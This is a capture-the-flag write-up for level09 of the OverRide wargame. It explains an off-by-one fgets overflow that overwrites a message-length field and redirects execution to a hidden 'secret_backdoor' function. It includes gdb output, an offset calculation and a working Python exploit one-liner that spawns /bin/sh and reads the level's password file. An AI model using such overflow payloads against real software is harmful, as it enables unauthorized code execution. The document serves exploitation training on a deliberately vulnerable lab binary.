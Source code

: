 ```
    level09@OverRide:~$ ./level09
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: level9
    >: Welcome, level9
    >: Msg @Unix-Dude
    >>: hello
    >: Msg sent!
```
***

    (gdb) info functions
    All defined functions:

    Non-debugging symbols:
    0x00000000000006f0  _init
    0x0000000000000720  strncpy
    0x0000000000000720  strncpy@plt
    0x0000000000000730  puts
    0x0000000000000730  puts@plt
    0x0000000000000740  system
    0x0000000000000740  system@plt
    0x0000000000000750  printf
    0x0000000000000750  printf@plt
    0x0000000000000760  __libc_start_main
    0x0000000000000760  __libc_start_main@plt
    0x0000000000000770  fgets
    0x0000000000000770  fgets@plt
    0x0000000000000780  __cxa_finalize
    0x0000000000000780  __cxa_finalize@plt
    0x0000000000000790  _start
    0x00000000000007bc  call_gmon_start
    0x00000000000007e0  __do_global_dtors_aux
    0x0000000000000860  frame_dummy
    0x000000000000088c  secret_backdoor
    0x00000000000008c0  handle_msg
    0x0000000000000932  set_msg
    0x00000000000009cd  set_username
    0x0000000000000aa8  main
    0x0000000000000ad0  __libc_csu_init
    0x0000000000000b60  __libc_csu_fini
    0x0000000000000b70  __do_global_ctors_aux
    0x0000000000000ba8  _fini
***

    (gdb) info variables
    All defined variables:

    Non-debugging symbols:
    0x0000000000000bb8  _IO_stdin_used
    0x0000000000000e08  __FRAME_END__
    0x0000000000201df4  __init_array_end
    0x0000000000201df4  __init_array_start
    0x0000000000201df8  __CTOR_LIST__
    0x0000000000201e00  __CTOR_END__
    0x0000000000201e08  __DTOR_LIST__
    0x0000000000201e10  __DTOR_END__
    0x0000000000201e18  __JCR_END__
    0x0000000000201e18  __JCR_LIST__
    0x0000000000202038  __data_start
    0x0000000000202038  data_start
    0x0000000000202040  __dso_handle
    0x0000000000202060  completed.6531
    0x0000000000202068  dtor_idx.6533
    0x0000000000202080  save
***

Firstly, the architecture used is x86_64

Secondly, from the list of all functions and from disassemlered code that there is a function named `secret_backdoor` that is not called anywhere. `secret_backdoor` reads stdin with `fgets` and passes what is read to `system` function. So we want to get to this function to call `"/bin/sh"`

Let's see what the program does. It reads username and message with `fgets` and stores them in structure. Username can be 40 char long and message - 140.

Thankfully, the creator made a mistake and instead of 40 bytes `fgets` reads 41. We can use it to overwrite the next variable - size used in strncpy for copying message text into structure. With this we can get to rsp (stack pointer) to change it to `secret_backdoor` address.

Let's find rsp address with [this](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) tool. As a 1 byte size overwrite we will use the biggest possible number - \xff = 255.


***
```
    level09@OverRide:~$ python -c 'print "F" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai"' > /tmp/lvl09

    (gdb) r < /tmp/lvl09
    Starting program: /home/users/level09/level09 < /tmp/lvl09
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: >: Welcome, FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF�>: Msg @Unix-Dude
    >>: >: Msg sent!

    Program received signal SIGSEGV, Segmentation fault.
    0x0000555555554931 in handle_msg ()
    (gdb) info registers
    rax            0xd      13
    rbx            0x0      0
    rcx            0x7ffff7b01f90   140737348902800
    rdx            0x7ffff7dd5a90   140737351867024
    rsi            0x7ffff7ff7000   140737354100736
    rdi            0xffffffff       4294967295
    rbp            0x6741356741346741       0x6741356741346741
    rsp            0x7fffffffe5c8   0x7fffffffe5c8
    r8             0x7ffff7ff7004   140737354100740
    r9             0xc      12
    r10            0x21     33
    r11            0x246    582
    r12            0x555555554790   93824992233360
    r13            0x7fffffffe6b0   140737488348848
    r14            0x0      0
    r15            0x0      0
    rip            0x555555554931   0x555555554931 <handle_msg+113>
    eflags         0x10246  [ PF ZF IF RF ]
    cs             0x33     51
    ss             0x2b     43
    ds             0x0      0
    es             0x0      0
    fs             0x0      0
    gs             0x0      0
    (gdb) x $rbp
    0x6741356741346741:     Cannot access memory at address 0x6741356741346741
```
***

We put rbp (frame pointer) address 0x6741356741346741 into the tool, get 192 and add 8 to reach rsp (the size of the stack frame)

The offset is 200

Dynamic address of `secret_backdoor` can also be found during runtime:
***
```
    (gdb) info function secret_backdoor
    All functions matching regular expression "secret_backdoor":

    Non-debugging symbols:
    0x000055555555488c  secret_backdoor

    # or

    (gdb) x secret_backdoor
    0x55555555488c <secret_backdoor>:       0xe5894855
```
***

Now we can create an exploit:

1. Fill username -> "F" * 40
1. Message size overwrite = offset to rsp + address size = 200 + 8 = 0xd0 -> "\xd0"
2. 200 chars for offset -> "F" * 200
3. `secret_backdoor` address -> "\x8c\x48\x55\x55\x55\x55\x00\x00"
4. Call to shell -> "/bin/sh"

And we shouldn't forget to separate inputs with "/n"

***
```
    level09@OverRide:~$ (python -c 'print "F" * 40 + "\xd0" + "\n" + "F" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' ; cat -) | ./level09
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: >: Welcome, FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF�>: Msg @Unix-Dude
    >>: >: Msg sent!
    cat /home/users/end/.pass
    j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```

